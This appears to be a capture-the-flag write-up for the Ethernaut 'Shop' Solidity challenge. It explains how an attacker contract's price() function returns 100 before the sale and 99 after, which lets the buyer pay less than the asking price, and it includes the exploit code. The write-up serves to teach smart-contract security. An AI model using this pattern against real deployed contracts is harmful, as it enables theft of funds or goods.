 # Shop

---
Objective: 
- Сan you get the item from the shop for less than the price asked?
---

The vulnerability lies in that we can interact as the Buyer with setting our own prices after returning the price with a check on how `isSold()` right after it is sold.

So in the Shop contract we have this code snippet

```solidity 
// during this call, isSold is false
if (_buyer.price() >= price && !isSold) {
// the state will change for isSold
isSold = true;
// during this call, isSold is true
price = _buyer.price();
}
```

That is where we come in. Since the switch for `isSold` is in the midst of the loop we can edit the value in our Buyer contract before it calls the price. Therefore we can write this: 
```solidity
function hack() external {
    target.buy();
    require(target.price() == 99, "price != 99");
  }

  function price() external view returns (uint) {
    if (target.isSold()) {
      return 99;
    }
    return 100;
  }
```

That will mimic the `price()` function but editing the return value after the item is sold. This makes us buy it at a lower price when we have our `hack()` function:
```solidity
function hack() external {
    target.buy();
    require(target.price() == 99, "price != 99");
  }
```

